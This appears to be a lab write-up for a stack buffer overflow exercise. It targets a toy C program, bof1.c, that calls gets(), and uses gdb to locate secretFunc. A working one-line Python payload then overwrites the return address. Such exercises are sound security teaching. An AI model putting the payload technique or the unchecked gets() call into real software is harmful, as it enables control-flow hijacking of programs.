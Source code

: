 # bof1.c  
In this attack, we aim to overwrite the return address with the address of a different function (redirect control) using Python!  

# Vulnerbility  
At the function `gets(array);` the attacker can control the flow of execution by input larger than 200 bytes  

# Attack  
Compile file with debugging, no stack protection  
`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`
![alt text](image.png)

Run gdb  
`gdb bof1.out`
![alt text](image-1.png)  

Disassemble the vuln function  
`disas vuln`
![alt text](image-2.png)  

Disassemble secretFunc  
`disas secretFunc`
![alt text](image-3.png)  
The address of 'secretFunc' is 0x0804846b  

To attack, based on the stackframe we need 204 bytes   
To quit  
`q`  
To generate create 204 bytes by generate 204 character 'a'  
`echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 123`
 ![alt text](image-4.png)